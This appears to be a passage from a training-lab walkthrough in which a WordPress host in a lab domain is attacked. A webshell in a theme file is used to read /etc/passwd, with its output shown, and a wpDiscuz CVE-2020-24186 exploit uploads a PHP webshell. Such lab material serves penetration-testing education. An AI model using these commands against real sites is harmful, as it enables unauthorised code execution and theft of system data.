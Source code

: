 ```
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=cat%20/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
webadmin:x:1001:1001::/home/webadmin:/bin/bash
mrb3n:x:1002:1002::/home/mrb3n:/bin/sh
```

webadmin

**Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot.**

```
python3 wpdiscuz.py -u http://blog.inlanefreight.local/ -p /?p=1
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[105763] | code:[200]
[!] Got wmuSecurity value: 87823794a1
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: vroizekvphhlyuq

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2023/07/vroizekvphhlyuq-1689146131.7064.php&quot; 
```